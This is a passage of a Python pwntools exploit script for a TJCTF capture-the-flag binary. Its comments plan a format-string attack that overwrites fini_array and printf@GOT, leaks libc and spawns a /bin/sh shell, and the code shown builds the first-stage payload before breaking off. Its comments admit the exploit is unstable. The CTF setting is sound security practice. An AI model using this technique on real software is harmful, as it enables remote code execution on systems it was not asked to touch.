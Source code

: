 ```python
#!/usr/bin/env python3
from pwn import *
from sys import argv

REMOTE = 0
if len(argv) > 1:
    if 'r' in argv[1]:
        REMOTE = 1

context.terminal = ['tmux', 'splitw']
exe = './naughty'
host, port = "p1.tjctf.org", 8004

# The non-remote version of this exploit is broken
# The exploit is too unstable for me to bother fixing that
# You also need to run the remote version like 3 times until u pop shell
proc = remote(host, port) if REMOTE else process(exe)

# Testing breakpoints 
# Checking ret address, and checking when the format
# string gets written
if len(argv) > 1:
    if 'd' in argv[1]:
        DEBUG = 1
        gdb.attach(proc, '''
b *main
b *main+249
b *main+288
c
''')

# GAME PLAN:
# STAGE 1
# overwrite fini_array -> main
# leak libc address
# STAGE 2 
# calculate base and then system
# overwrite printf@GOT -> system@libc
# overwrite fini_array -> main (again)
# STAGE 3
# input /bin/sh
# STAGE 4
# PROFIT?????

# addresses
main        = 0x08048536
fini_array  = 0x08049bac
printf_got  = 0x08049cb0

log.info("Fini_array    0x%x" % fini_array)
log.info("main          0x%x" % main)

# STAGE 1 - Overwrite fini_array with main
lower_main = main & 0xffff
upper_main = main >> 16
                                                                    
payload  = p32(fini_array+2)
payload += p32(fini_array)
payload += b"|%75$ x|"
payload += b"|%35$ x|"
payload += bytes("%{}x".format(upper_main - 8 - 20).encode('utf-8'))
payload += b"%7$ hn"
payload += bytes("%{}x".format(lower_main - upper_main).encode('utf-8'))
```